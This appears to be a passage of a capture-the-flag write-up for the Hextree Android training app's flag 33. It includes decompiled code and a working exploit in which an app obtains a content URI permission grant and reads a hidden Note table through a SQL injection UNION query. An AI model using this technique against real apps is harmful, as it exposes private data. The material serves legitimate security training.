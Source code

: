 ```java

        prepareDB(logHelper);
        Cursor query = readableDatabase.query(FlagDatabaseHelper.TABLE_FLAG, strArr, str, strArr2, null, null, str2);
        
        if (containsFlag33(query)) {
            success(logHelper);
        }
       
```

now we have 2 routes we can go in
- If you ask for "flags" (path `/flags`), you get sent to flags table and see its content 
- If you ask for "notes" (path `/notes`), you get sent to section 2 (but it's closed and not officially accessible  )

Then the rest of the code It checks what you're asking for (only "flags") aka (match !=1)   then Calls `prepareDB()` (which as explained up) prepare the notes table  and  Runs your query on the Flag table If it finds "flag33" in results, triggers `success`

now how to talk to it ? using activity 31_1
```java
       Intent intent = getIntent();
        String stringExtra = intent.getStringExtra("secret");
        if (stringExtra == null) {
            if (intent.getAction() == null || !intent.getAction().equals("io.hextree.FLAG33")) {
                return;
            }
            intent.setData(Uri.parse("content://io.hextree.flag33_1/flags"));
            intent.addFlags(1);
            setResult(-1, intent);
            finish();
            return;
        }
        if (Flag33Provider1.secret.equals(stringExtra)) {
            this.f = new LogHelper(this);
            this.f.addTag("access-notes-table");
            this.f.addTag("flag33");
            checkStatus(this);
        }
    }
```

It receives an intent and if it has action `"io.hextree.FLAG33"` and extra string is null it sets the Uri with `"content://io.hextree.flag33_1/flags"` and flag 1 which is `FLAG_GRANT_READ_URI_PERMISSION`

#### Solution
so what we can do? we can  send an intent with `startActivityForResult` and using SQLi injection but this time it's called union attack because we want to access other tables from the db, then use our cursor to get out data and log it 

```java
Intent intent = new Intent("io.hextree.FLAG33");  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag33Activity1"));  
startActivityForResult(intent,0);

@Override  
protected void onActivityResult(int requestCode, int resultCode, Intent data) {  
    super.onActivityResult(requestCode, resultCode, data);  
    if (requestCode == 0) {  
        Log.d("flags", data.getData().toString());  
            //   where _id=2 union Select  
        Cursor cursor = getContentResolver().query(data.getData(), new String[]{"name", "value","visible"}, "_id = 2 UNION SELECT  * FROM Note", null, null);  
```